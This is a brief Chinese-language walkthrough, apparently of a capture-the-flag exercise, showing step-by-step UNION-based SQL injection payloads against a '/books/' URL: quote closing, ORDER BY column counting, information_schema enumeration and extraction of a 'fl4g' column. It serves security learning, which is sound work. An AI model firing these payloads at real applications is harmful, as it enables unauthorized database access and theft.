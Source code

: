 1.先判断注入点类型，测试发现可以用单引号闭合并且用#注释后面的单引号（%23是#的url编码）

```
/books/0';%23
```

2.测试返回字段的数量，当order by 3时不报错，order by 4时报错说明返回字段数量为3.

```
/books/0'order by 3;%23
```
![图 2](https://s2.loli.net/2022/09/01/LGlkpOXwTP1NF2d.png)  

3.爆数据库名，发现book

```
/books/0'union select 1,schema_name,3 from information_schema.schemata;%23
```
![图 1](https://s2.loli.net/2022/09/01/vChFnD9Z2lzYqNS.png)  

4.爆数据表名，在book数据库中发现secret
```
/books/0'union select 1,table_name,3 from information_schema.tables where table_schema='book'%23
```
![图 3](https://s2.loli.net/2022/09/01/8E5lDHQLaFv43cb.png)  

5.爆列名，在book数据库的secret表中发现列名fl4g
```
/books/0'union select 1,column_name,3 from information_schema.columns where table_name='secret'%23
```
![图 4](https://s2.loli.net/2022/09/01/RuQqWeiyK37vOfA.png)  

6.取值，从book数据库的secret表中取出列fl4g的值
```
/books/0'union select 1,fl4g,3 from secret;%23
```
![图 5](https://s2.loli.net/2022/09/01/VZaAqF1HmSfg8lP.png)  

